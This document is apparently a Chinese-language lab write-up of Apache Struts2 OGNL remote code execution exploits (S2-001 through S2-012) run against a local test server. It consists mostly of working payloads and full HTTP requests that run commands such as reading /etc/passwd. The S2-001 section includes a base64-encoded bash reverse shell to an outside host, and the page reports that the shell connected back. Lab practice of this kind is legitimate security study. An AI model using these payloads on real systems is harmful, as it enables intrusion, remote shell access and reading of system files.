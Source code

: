 # structs2-001(远程命令执行)

### 漏洞背景

> 该漏洞因为用户提交表单数据并且验证失败时,后端会将用户之前提交的参数值使用`OGNL`表达式`%{value}`进行解析,让后重新填充到对应的表单数据中.例如注册或登录页面,提交失败后端一般会默认返回之间提交的数据,由于后端使用`%{value}`对提交的数据执行了一次`OGNL`表达式解析,所以可以直接构造payload进行命令执行

### 开始攻击

- 构造`OGNL`表达式

<img src="./assets/image-20241024104200915.png" alt="image-20241024104200915" style="zoom:50%;" />

- 发现表达式被执行了

<img src="./assets/image-20241024104244553.png" alt="image-20241024104244553" style="zoom:50%;" />

- 尝试tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

<img src="./assets/image-20241024104755523.png" alt="image-20241024104755523" style="zoom:50%;" />

- 获取的路径`tomcatBinDir{/usr/local/tomcat}`

- 尝试获取网站路径

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

<img src="./assets/image-20241024104927455.png" alt="image-20241024104927455" style="zoom:50%;" />

- 开始尝试反弹`shell`

```bash
# 使用base64编码
bash -i >& /dev/tcp/192.168.2.13/4444 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx

#构造payload
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20241024110742151](./assets/image-20241024110742151.png)

- 反弹成功

<img src="./assets/image-20241024110803839.png" alt="image-20241024110803839" style="zoom:33%;" />

****

# structs2-005(远程命令执行)

> s2-005

- `burp抓包`看一下

![image-20241024112651822](./assets/image-20241024112651822.png)

- 构造payload,发送数据包(这里需要修改请求方法为post)

```http
POST /example/HelloWorld.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=D0222EC6F06798698F5BADA80CA06033
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 666

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![image-20241024113111484](./assets/image-20241024113111484.png)

- `%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27`->`cat /etc/passwd`

****

# structs2-007

> s2-007 age来自用户输入,传递一个非整数给id导致错误,structs2会将用户的输入当作`ongl`表达式执行,从而导致漏洞

### 开始攻击

- `编码前的poc`

```http
'+++(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new+java.lang.Boolean("false")+,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /').getInputStream()))+++'
```

```http
POST /user.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 359
Origin: http://192.168.2.254:8080
Connection: keep-alive
Referer: http://192.168.2.254:8080/
Cookie: JSESSIONID=DBF32B918CBF71AE8C170408006BCD9B
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1&email=1&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27ls%20/%27%29.getInputStream%28%29%29%29+%2B+%27
```

![image-20241024182450674](./assets/image-20241024182450674.png)

****

# structs2-008

> s2-008 Cookie拦截器错误配置造成`ofnl`表达式执行

- poc

```http
GET /devmode.action?debug=command&expression=%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2c%23f.setAccessible(true)%2c%23f.set(%23_memberAccess%2ctrue)%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%22id%22).getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew%20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b50000%5d%2c%23c.read(%23d)%2c%23genxor%3d%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2c%23genxor.println(%23d)%2c%23genxor.flush()%2c%23genxor.close() HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.254:8080/
Connection: keep-alive
Cookie: JSESSIONID=987545820D0AD885A14BAA84D41888E2
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

![image-20241024183758666](./assets/image-20241024183758666.png)

****

# structs2-009

> s2-009

### 开始攻击

- 访问8080端口

<img src="./assets/image-20241025113906888.png" alt="image-20241025113906888" style="zoom: 33%;" />

- 构造paylaod

```http
?age=12313&name=(%23context["xwork.MethodAccessor.denyMethodExecution"]=+new+java.lang.Boolean(false),+%23_memberAccess["allowStaticMethodAccess"]=true,+%23a=@java.lang.Runtime@getRuntime().exec("cat /etc/passwd").getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)('meh')]
```

![image-20241025114106585](./assets/image-20241025114106585.png)

****

# structs2-012

> s2-012

<img src="./assets/image-20241025114659806.png" alt="image-20241025114659806" style="zoom: 50%;" />

- payload

```http
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

<img src="./assets/image-20241025114835135.png" alt="image-20241025114835135" style="zoom:33%;" />

****

………………
